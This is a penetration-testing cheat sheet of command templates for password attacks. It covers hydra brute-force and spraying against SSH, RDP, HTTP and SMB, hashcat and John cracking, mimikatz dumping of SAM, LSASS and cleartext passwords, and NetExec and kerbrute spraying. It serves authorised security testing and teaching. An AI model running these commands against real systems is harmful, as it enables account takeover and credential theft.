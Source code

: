 # Password Attack

## Password Attacks

### Dictionary Attack

Uses a wordlist of passwords to attempt authentication against an user.

```
hydra -L <user> -P <pass_list>.txt <ip> <service>
```

* Example: `hydra -L root -P passwords.txt 192.168.1.100 ssh`

### Password Spray

Tries a single password across multiple usernames to avoid lockouts.

```
hydra -l <user_list>.txt -p <password> <ip> <service>
```

* Example: `hydra -l users.txt -p Password123 192.168.1.100 rdp`

### Bruteforce Attack

Attempts all combinations of usernames and passwords from wordlists.

```
hydra -L <user_list>.txt -P <pass_list>.txt <ip> <service>
```

* Example: `hydra -L users.txt -P passwords.txt 192.168.1.100 http-post-form "/index.php:user=^USER^&pwd=^PASS^:Login failed"`&#x20;

## Service Attacks

### RDP Attack

Tests credentials for Remote Desktop Protocol access.

```
xfreerdp /u:<user> /p:<pass> /v:<target_ip> /cert:ignore
```

* Example: `xfreerdp /u:admin /p:Password123 /v:192.168.1.100 /cert:ignore`

### HTTP Basic Authentication Attack

Attacks HTTP basic authentication using GET method.

```
hydra -L <user_list>.txt -P <pass_list>.txt <target_ip> http-get /<path>
```

* Example: `hydra -L users.txt -P passwords.txt 192.168.1.100 http-get /admin`

### HTTP Form Attack

Attacks web forms with custom POST parameters.

{% code overflow="wrap" %}

```
hydra -L <user_list>.txt -P <pass_list>.txt <target_ip> http-post-form "<path>:<form_params>:<error_message>"
```

{% endcode %}

* Example: `hydra -L users.txt -P passwords.txt 192.168.1.100 http-post-form "/index.php:user=^USER^&pwd=^PASS^:Login failed"`

### SMB Attack

Tests credentials against SMB services.

```
hydra -L <user_list>.txt -P <pass_list>.txt <target_ip> smb
```

* Example: `hydra -L users.txt -P passwords.txt 192.168.1.100 smb`

## Password Cracking

### Identify Hash Type

Determines the type of a given hash.

```
echo -n '<hash>' | hashid
```

* Example: `echo -n '5f4dcc3b5aa765d61d8327deb882cf99' | hashid`

### Hashcat

#### Generate Wordlist with Rules

Creates a wordlist using hashcat rules for password variations.

```
hashcat -r <rule_file> --stdout <wordlist>.txt
```

* Example: `hashcat -r /usr/share/hashcat/rules/best64.rule --stdout wordlist.txt`

#### Find Hashcat Mode

Searches for the hashcat mode for a specific hash type.

```
hashcat --help | grep -i "<hash_type>"
```

* Example: `hashcat --help | grep -i "KeePass"`

#### Crack with Hashcat

Cracks hashes using a wordlist and optional rules.

```
hashcat -m <mode> -a 0 <hash_file> <wordlist>.txt
```

* Example: `hashcat -m 1000 -a 0 hashes.txt passwords.txt`

### John the Ripper

#### John with Custom Rules

Uses custom rules for John the Ripper by adding to config.

```
# Add to /etc/john/john.conf: [List.Rules:<rule_name>]
john --rules=<rule_name> <hash_file>
```

* Example: `john --rules=sshRules hashes.txt`

#### Crack with John

Cracks hashes using John the Ripper with a wordlist.

```
john --wordlist=<wordlist>.txt <hash_file>
```

* Example: `john --wordlist=passwords.txt hashes.txt`

## Windows Password Dumping

### Dump SAM File

Extracts credentials from SAM and SYSTEM files.

```bash
# Boot from another OS, copy C:\Windows\System32\config\sam and system, then:
mimikatz# lsadump::sam
```

### Dump Cleartext Passwords

Extracts cleartext passwords from memory.

```bash
mimikatz# privilege::debug
mimikatz# token::elevate
mimikatz# sekurlsa::logonpasswords
```

### Dump LSASS Memory

Dumps LSASS process memory to extract credentials.

```bash
mimikatz# privilege::debug
mimikatz# sekurlsa::minidump lsass.dmp
```

* Example: `mimikatz# sekurlsa::minidump lsass.dmp`

### Inject Fake Keylogger DLL

Captures credentials by injecting a fake keylogger DLL.

```bash
mimikatz# misc::memssp
```

## Additional Tools

### NetExec

Tests credentials across a network for SMB, WinRM, or other services.

```
netexec <protocol> <target_ip> -u <user_list>.txt -p <pass_list>.txt
```

* Example: `netexec smb 192.168.1.0/24 -u users.txt -p passwords.txt`

### Kerbrute

Enumerates and attacks Active Directory accounts via Kerberos.

```
kerbrute passwordspray -d <domain> <user_list>.txt <password>
```

* Example: `kerbrute passwordspray -d corp.local users.txt Password123`
